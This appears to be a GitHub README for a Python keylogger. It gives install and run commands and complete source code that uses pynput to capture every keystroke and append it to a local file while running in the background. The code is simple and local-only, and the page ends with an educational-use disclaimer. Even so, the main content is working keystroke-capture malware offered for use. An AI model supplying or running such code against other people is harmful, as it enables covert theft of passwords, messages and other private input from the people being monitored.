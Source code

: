 Overview
This is a simple keylogger implemented in Python using the pynput library. It captures keystrokes and logs them to a text file.

Features
Logs all keystrokes
Saves captured keystrokes to keylogger.txt
Runs in the background until manually stopped

pip install pynput

Usage: Run the script using:

sh
Copy
Edit
python keylogger.py
Keystrokes will be logged in keylogger.txt.

Code Explanation:
The script listens for keystrokes and writes them to keylogger.txt. It handles exceptions for non-character keys.

python
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keylogger.txt", "a") as f:
        try:
            char = key.char
            f.write(char)
        except:
            print("Error getting char")

if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
Disclaimer
This script is for educational purposes only. Unauthorized use of keyloggers is illegal and unethical. Use responsibly and with proper consent.

License
This project is licensed under the MIT License.
